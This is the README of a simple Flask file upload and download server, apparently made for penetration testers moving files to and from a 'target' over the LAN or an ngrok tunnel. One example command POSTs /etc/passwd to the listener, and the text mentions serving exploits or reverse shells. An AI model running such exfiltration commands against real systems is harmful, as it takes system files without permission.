 # Uploader
Download/Upload Python App - duppy

Simple Flask App to Upload Files

Perfect for spinning up if needing to transfer files over via the command line or browser.
```python
python Uploader.py -h
usage: Uploader.py [-h] [-P PORT] [-H HOST] [--upload-folder UPLOAD_FOLDER]

Simple Flask File Uploader

options:
  -h, --help            show this help message and exit
  -P PORT, --port PORT  Port Number to listen On - Default 5000
  -H HOST, --host HOST  Interface to listen on - Default all
  --upload-folder UPLOAD_FOLDER
                        Upload file path - Default 'cwd'
```

Spins up a Flask App
```python
python Uploader.py -H 192.168.0.29 -P 8000 --upload-folder C:\Users\gd\Downloads
 * Serving Flask app 'Uploader'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://192.168.0.29:8000
Press CTRL+C to quit
192.168.0.29 - - [08/Feb/2024 20:48:14] "POST / HTTP/1.1" 302 -
192.168.0.29 - - [08/Feb/2024 20:48:14] "POST /done HTTP/1.1" 200 -
```

## In Browser
Can Upload and also Download Files to the Target if needed

![image](https://github.com/deeexcee-io/Uploader/assets/130473605/30baa38a-1a2b-4d4d-a8cc-5909cbcbca1d)


## Command Line
```bash
curl -L -s -X POST -F "file=@/etc/passwd" http://192.168.0.29:8000
File uploaded!

curl -L -s -X POST -F "file=@ips.txt" https://854d-11-11-11-11.ngrok-free.app

```
## ngrok Setup if accessing over the Internet

To simplify transferring over the internet to/from the local machine an ngrok free account covers all bases.
```
python Uploader.py -H 127.0.0.1 -P 5000 --upload-folder C:\Uploader\Files

.\ngrok.exe http 5000 --basic-auth="gd:SuperPassword"
```

![ngrok](https://github.com/deeexcee-io/Uploader/assets/130473605/269b7883-4615-469a-b958-5b15cdc0d668)

Enter Creds and you're good

![image](https://github.com/deeexcee-io/Uploader/assets/130473605/ebd9e686-6cbc-469d-a187-3b3bec50573e)

List is Dynamically Updated to show current files

![image](https://github.com/deeexcee-io/Uploader/assets/130473605/5b157912-b0ae-48e8-8006-84c2f476f437)


![image](https://github.com/deeexcee-io/Uploader/assets/130473605/8ff1ffe1-c314-4781-a520-53ea4917ceee)



All FIles in the Current Directory are also Served and can be Downloaded if needed. For example transferring over an exploit/reverse shell

![image](https://github.com/deeexcee-io/Uploader/assets/130473605/ab51663d-fb7a-43a1-a99f-ac444fc71f27)





